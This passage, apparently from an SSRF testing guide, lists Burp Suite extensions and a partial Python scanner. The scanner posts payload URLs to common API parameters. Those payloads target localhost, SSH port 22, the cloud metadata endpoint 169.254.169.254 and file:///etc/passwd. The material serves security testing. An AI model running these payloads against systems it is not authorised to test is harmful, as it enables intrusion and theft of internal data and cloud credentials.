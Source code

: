 2. **Burp Suite Extensions**
   ```bash
   # Install Collaborator Everywhere extension
   # Install SSRF Sheriff extension
   # Configure Burp Collaborator for out-of-band detection
   ```

3. **Custom SSRF Scanner**
   ```python
   import requests
   import threading
   from urllib.parse import urljoin
   
   class SSRFScanner:
       def __init__(self, base_url, token):
           self.base_url = base_url
           self.token = token
           self.headers = {
               'Authorization': f'Bearer {token}',
               'Content-Type': 'application/json'
           }
           self.vulnerabilities = []
       
       def test_ssrf_endpoint(self, endpoint, parameter, test_url):
           try:
               payload = {parameter: test_url}
               response = requests.post(
                   urljoin(self.base_url, endpoint),
                   headers=self.headers,
                   json=payload,
                   timeout=10
               )
               
               if response.status_code == 200:
                   # Check for successful SSRF indicators
                   if any(indicator in response.text.lower() for indicator in 
                          ['localhost', '127.0.0.1', 'internal', 'metadata']):
                       self.vulnerabilities.append({
                           'endpoint': endpoint,
                           'parameter': parameter,
                           'test_url': test_url,
                           'response': response.text[:500]
                       })
                       return True
           except:
               pass
           return False
       
       def scan_common_endpoints(self):
           endpoints = [
               ('/api/users/avatar', 'imageUrl'),
               ('/api/tasks/import', 'importUrl'),
               ('/api/webhook/callback', 'url'),
               ('/api/proxy/fetch', 'target')
           ]
           
           test_urls = [
               'http://localhost:80',
               'http://127.0.0.1:22',
               'http://169.254.169.254/latest/meta-data/',
               'file:///etc/passwd'
           ]
           
           for endpoint, param in endpoints:
               for test_url in test_urls:
   ```